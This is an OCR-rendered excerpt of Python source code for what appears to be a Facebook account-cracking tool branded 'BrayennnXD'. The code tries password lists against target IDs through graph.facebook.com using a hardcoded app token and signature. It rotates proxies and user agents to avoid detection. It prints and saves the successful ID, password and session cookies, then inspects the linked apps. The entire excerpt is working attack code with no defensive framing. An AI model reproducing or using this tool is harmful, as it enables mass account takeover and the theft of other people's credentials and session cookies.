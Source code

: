                                         ceker(idf,pw) 
                                         break 
                         elif "c_user" in ses.cookies.get_dict().keys(): 
                                 if 'no' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         break 
                                 elif 'ya' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         cek_apk(kuki) 
                                         break 
  
                         else: 
                                 continue 
                 except requests.exceptions.ConnectionError: 
                         time.sleep(31) 
         loop+=1 
  
 #--------------------[ METODE API ]-----------------# 
 def reguler2(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         ua = random.choice(liu) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         prog.update(des,description=f"[bold green]B-Api[bold white] {loop}/{len(id)} OK-:[bold green]{ok}[/] CP-:[bold yellow]{cp}[/]") 
         prog.advance(des)  
         for pw in pwv: 
                 try: 
                         if 'ya' in ualuh: ua = ualu[0] 
                         nip=random.choice(prox) 
                         proxs= {'http': 'socks5://'+nip} 
                         params = { 
                                 "access_token": "200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16", 
                                 "sdk_version": {random.randint(1,26)},  
                                 "email": idf, 
                                 "locale": "en_US", 
                                 "password": pw, 
                                 "sdk": "android", 
                                 "generate_session_cookies": "1", 
                                 "sig": "4f648f21fb58fcd2aa1c65f35f441ef5" 
                         } 
                         headers = { 
                                 "Host": "graph.facebook.com", 
                                 "x-fb-connection-bandwidth": str(random.randint(20000000, 30000000)), 
                                 "x-fb-sim-hni": str(random.randint(20000, 40000)), 
                                 "x-fb-net-hni": str(random.randint(20000, 40000)), 
                                 "x-fb-connection-quality": "EXCELLENT", 
                                 "user-agent": ua, 
                                 "content-type": "application/x-www-form-urlencoded", 